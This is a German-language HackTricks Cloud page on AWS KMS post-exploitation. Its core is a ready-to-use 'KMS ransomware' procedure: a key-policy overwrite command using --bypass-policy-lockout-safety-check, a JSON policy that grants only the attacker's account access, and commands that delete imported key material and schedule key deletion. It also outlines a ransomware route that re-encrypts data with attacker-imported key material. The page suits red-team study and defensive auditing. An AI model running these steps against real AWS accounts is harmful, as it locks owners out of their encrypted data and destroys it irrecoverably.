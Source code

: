 # AWS - KMS Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## KMS

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Informationen verschlüsseln/entschlüsseln

{% hint style="success" %}
Beachten Sie, dass die Datei, wenn Sie einige Daten innerhalb einer Datei entschlüsseln möchten, die binären Daten enthalten muss, nicht base64-kodierte Daten.
{% endhint %}

* Verwendung eines **symmetrischen** Schlüssels
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Verwendung eines **asymmetrischen** Schlüssels:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ein Angreifer mit privilegierten Zugriff auf KMS könnte die KMS-Richtlinie von Schlüsseln ändern und **seinem Konto Zugriff darauf gewähren**, während der Zugriff, der dem legitimen Konto gewährt wurde, entfernt wird.

Dann können die Benutzer des legitimen Kontos auf keine Informationen von Diensten zugreifen, die mit diesen Schlüsseln verschlüsselt wurden, was eine einfache, aber effektive Ransomware über das Konto schafft.

{% hint style="warning" %}
Beachten Sie, dass **AWS verwaltete Schlüssel nicht von diesem Angriff betroffen sind**, nur **vom Kunden verwaltete Schlüssel**.

Beachten Sie auch die Notwendigkeit, den Parameter **`--bypass-policy-lockout-safety-check`** zu verwenden (das Fehlen dieser Option in der Webkonsole macht diesen Angriff nur über die CLI möglich).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Beachten Sie, dass Sie, wenn Sie diese Richtlinie ändern und nur einem externen Konto Zugriff gewähren, und dann von diesem externen Konto aus versuchen, eine neue Richtlinie festzulegen, um **den Zugriff auf das ursprüngliche Konto zurückzugeben, dies nicht möglich sein wird**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generische KMS-Ransomware

#### Globale KMS-Ransomware

Es gibt einen weiteren Weg, um eine globale KMS-Ransomware durchzuführen, der die folgenden Schritte umfasst:

* Erstellen Sie einen neuen **Schlüssel mit einem vom Angreifer importierten Schlüsselmaterial**
* **Re-verschlüsseln Sie ältere Daten**, die mit der vorherigen Version verschlüsselt wurden, mit der neuen.
* **Löschen Sie den KMS-Schlüssel**
* Jetzt könnte nur der Angreifer, der das ursprüngliche Schlüsselmaterial hat, die verschlüsselten Daten entschlüsseln

### Schlüssel zerstören
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Beachten Sie, dass AWS jetzt **verhindert, dass die vorherigen Aktionen von einem anderen Konto aus durchgeführt werden:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
